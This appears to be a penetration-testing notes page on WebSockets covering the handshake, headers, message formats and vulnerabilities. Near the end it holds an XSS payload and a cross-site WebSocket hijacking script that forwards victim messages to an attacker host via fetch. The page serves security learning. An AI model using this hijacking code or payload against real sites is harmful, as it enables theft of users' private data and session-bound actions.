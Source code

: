 ```yaml
---
title: "WebSockets"
weight: 28
description: "Learn about WebSockets penetration testing, including connection establishment, vulnerabilities like XSS and SQLi, and cross-site WebSocket hijacking."
---
```


# WebSockets

WebSocket connections are long-lived HTTP initiations allowing bidirectional messaging. The connection stays open until a message is sent by the client or server. WebSocket is ideal for low-latency and server-triggered messages, such as real-time financial data feeds.

{{< details summary="How are WebSocket connections established?" >}}

WebSocket connections are normally created using client-side JavaScript like the following:

```javascript
var ws = new WebSocket("wss://normal-website.com/chat");
```

The `wss` protocol establishes a WebSocket over an encrypted TLS connection, while the `ws` protocol uses an unencrypted connection.

To establish the connection, the browser and server perform a WebSocket handshake via HTTP. The browser sends a WebSocket handshake request like this:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

{{< /details >}}

{{< details summary="Headers" >}}

<summary>Headers</summary>

* The `Connection` and `Upgrade` headers in the request and response indicate that this is a WebSocket handshake.

- The `Sec-WebSocket-Version` request header specifies the WebSocket protocol version that the client wishes to use. This is typically 13.

* The `Sec-WebSocket-Key` request header contains a Base64-encoded random value, which should be randomly generated in each handshake request. This is use to prevent errors from caching proxies. (It is not like CSRF token...)

- The `Sec-WebSocket-Accept` response header contains a hash of the value submitted in the Sec-WebSocket-Key request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

{{< /details >}}

{{< details summary="What do WebSocket messages look like?" >}}

WebSocket messages can contain any content or data format

```javascript
ws.send("Peter Wiener");
```

It is common to use json

```json
{"user":"Hal Pline","content":"Hello"}
```

{{< /details >}}

---

## Manipulating WebSocket connections

[https://portswigger.net/web-security/websockets#manipulating-websocket-connections](https://portswigger.net/web-security/websockets#manipulating-websocket-connections)

---

## WebSockets vulnerabilities

* If inputs are transmitted and processed server-side
  * Server-side attacks (SQLi, XXE, etc.)
* If attacker-controlled data is transmitted via WebSockets to other application users
  * Client-side attacks (XSS, etc.)
    * Example if the content of a message is transmitted to another user (via chat...)
    * `{"message":"<img src=1 onerror='alert(1)'>"}`
* Also blind vulnerabilities

---

## Cross-site WebSocket hijacking

An attacker can craft a malicious webpage on their domain, initiating a cross-site WebSocket connection to the susceptible application. (As CSRF, the websocket connection mustn't contain CSRF tokens)

* Perform unauthorized actions masquerading as the victim user (like CSRF)
* Retrieve sensitive data that the user can access.
* Waiting for incoming messages to arrive containing sensitive data.

Exploitation code to open a websocket connection to send messages on your server

```html
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
